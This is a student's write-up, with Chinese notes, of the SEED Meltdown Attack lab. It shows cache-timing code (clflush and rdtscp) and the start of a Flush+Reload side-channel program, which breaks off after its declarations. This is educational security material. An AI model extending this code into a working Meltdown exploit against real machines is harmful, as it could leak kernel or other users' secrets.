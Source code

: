 ## Lab7 Meltdown Attack
講義: http://www.cis.syr.edu/~wedu/seed/Labs_16.04/System/Meltdown_Attack/
#### task1 Reading from Cache versus from Memory
```c=
// CacheTime.cpp
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdint.h>
#include <bits/stdc++.h>

uint8_t array[10*4096];

int main(int argc, const char **argv)
{
  uint32_t junk=0;
  uint64_t time1,time2;
  uint32_t *addr;
  int i;

  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // Flush the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items 
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++){
    addr = (uint32_t*)&array[i*4096];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk)-time1;
    printf("Access time for array[%d*4096]: %d CPU cycles\n"
      ,i,(int)time2);

  }
  return 0;
}
```
![](https://i.imgur.com/Kq6567R.png)
```
因為array[3*4096]跟array[7*4096]在cache裡頭的關西，所以讀取速度非常快，
大約是從ram讀取的時間的3分之1而已。
```
#### task2 Using Cache as a Side Channel
```c=
// FlushReload.cpp
#include <emmintrin.h>
#include <x86intrin.h>
#include <bits/stdc++.h>
#include <stdint.h>

uint8_t array[256*4096];
int temp;
char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

```